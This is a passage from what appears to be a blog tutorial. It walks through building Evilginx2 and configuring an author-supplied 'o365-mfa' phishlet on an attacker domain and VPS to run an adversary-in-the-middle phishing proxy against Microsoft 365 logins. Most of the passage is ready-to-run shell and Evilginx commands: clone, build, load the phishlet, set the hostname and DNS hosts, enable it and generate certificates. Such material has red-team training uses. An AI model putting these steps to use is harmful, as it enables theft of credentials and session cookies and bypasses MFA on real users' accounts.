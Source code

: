 **Step 2: Clone & Build Evilginx**

```bash
sudo apt install git make gcc -y
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

**Step 3: Download and Configure Phishlet for o365**

Phishlets are small configuration files used to set up Evilginx to target specific websites, enabling phishing attacks. I won’t go into the details of creating custom phishlets in this post, but if you're interested in learning how to craft your own, feel free to let me know—I can create a dedicated guide on that. For now, we’ll proceed with a pre-built phishlet I’ve prepared for this demonstration.

```bash
#Download my phishlet 
git clone https://github.com/0xtmax/Evilginx-Phishlets.git
cd Evilginx-Phishlets
cp o365-mfa.yaml /path/to/evilginx2/phishlets
```

**Step 4: Run Evilginx**

```bash
sudo /build/evilginx -p phishlets #this will load with your phishlets
```

**Step 5: Evilginx 2 Configuration** 

- Set the Domain:
    
    ```bash
    config domain  login.hackpie.com #Change this based on your domain and subdomains
    config ipv4 external <VPS IP>
    ```
    
- Set the phishlet:
    
    ```bash
    # Set your domain to the phishlet 
    phishlets hostname o365-mfa login.hackpie.com
    # Get the hosts you may create in your DNS register 
    phishlets get-hosts o365-mfa #verify the hostnames with the DNS Records
    # After check the DNS registers in your server, enable the phishlet 
    phishlets enable o365-mfa
    test-certs #this will generate SSL
    ```
    
